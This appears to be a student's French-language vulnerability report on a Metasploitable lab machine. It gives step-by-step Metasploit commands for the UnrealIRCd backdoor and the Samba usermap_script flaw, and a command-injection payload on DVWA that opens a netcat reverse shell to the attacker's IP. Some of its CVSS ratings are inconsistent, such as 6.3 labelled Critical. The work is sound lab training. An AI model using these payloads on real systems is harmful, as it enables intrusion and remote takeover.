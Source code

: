 # Rapport vulnérabilité Metasploitable

#### Grégoire JARRY - 3SI3

# Scanning

![alt text](https://github.com/enzyro/rapportvuln/blob/master/nmap.png)

# RCE - Unreal IRC Daemon

Une backdoor étant resté secrète pendant plusieurs mois est présente dans cette version du client IRC Unreal. Cette backdoor est déclenché par l'envoi de la chaine "AB" suivi de n'importe quelle commande système. Il existe un module metasploit permettant d'exploiter cette vulnérabilité.

## Démarche de reproduction

- lancer msfconsole

- chercher le module correspondant a l'exploit avec la commande "search unreal irc"

- lancer le module "use exploit/unix/irc/unreal_ircd_3281_backdoor"

- set la variable RHOST sur l'ip de la metasploitable "set RHOST 192.168.247.129"

- entrer la commande "exploit"

- obtention d'un shell root

![alt text](https://github.com/enzyro/rapportvuln/blob/master/irc_daemon.png)

## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | None      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | High     |
| Integrity           | High     |
| Availability        | High     |
|                    |          |
|**Score CVSS**      |**9.3 (Critical)**|


# RCE - Samba (usermap_script)


La fonctionnalité MS-RPC permet à un attaquant d'executer des commandes à travers des méta-caractères shell lorsqu'une option est activé dans le smb.conf (username map script), et permet un accès aux imprimantes et systèmes de partage de fichier. Il existe également un module metasploit permettant l'exploitation de cette vulnérabilité.

## Démarche de reproduction

- lancer msfconsole

- chercher le module correspondant a l'exploit avec la commande "search samba"

- lancer le module "use exploit exploit/multi/samba/usermap_script"

- set la variable RHOST sur l'ip de la machine metasploitable "set RHOST 192.168.247.129"

- entrer la commande "exploit"

- obtention d'un shell root

![alt text](https://github.com/enzyro/rapportvuln/blob/master/samba%20search.png)


![alt text](https://github.com/enzyro/rapportvuln/blob/master/samba%20shell.png)

## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | None      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | High     |
| Integrity           | High     |
| Availability        | High     |
|                    |          |
|**Score CVSS**      |**9.3 (Critical)**|


# RCE - DVWA command Injection

En exploitant la DVWA (Damn Vulnerale Web Application), il a été possible de créer un reverse shell et ainsi d'avoir un accès à la machine grâce au module d'Injection de Commande.


## Démarche de reproduction

- Se connecter à l'application web DVWA

- naviguer jusqu'à la page de Command Injection 

- fuzzing du champ "Ping", possibilité d'injection de commande shell (à l'aide de | ; &&)

- Création d'un listener en local "nc -l -p 1337"

- injection de la payload permettant la création du reverse shell "127.0.0.1 && nc @ip_attaquant 1337 -e /bin/sh"

- obtention d'un shell avec le user www-data



![alt text](https://github.com/enzyro/rapportvuln/blob/master/dvwa%20accueil.png)

![alt text](https://github.com/enzyro/rapportvuln/blob/master/dvwa%20reverse.png)

![alt text](https://github.com/enzyro/rapportvuln/blob/master/reverse%20listener.png)

## score CVSS
| Nom | Niveau |
| --- | --- |
| Attack Vector       | Local  |
| Attack Complexity   | Low      |
| Privileges Required | Low      |
| User Interaction    | None     |
| Scope               | Changed  |
| Confidentiality     | Medium     |
| Integrity           | Medium     |
| Availability        | Medium     |
|                    |          |
|**Score CVSS**      |**6.3 (Critical)**|
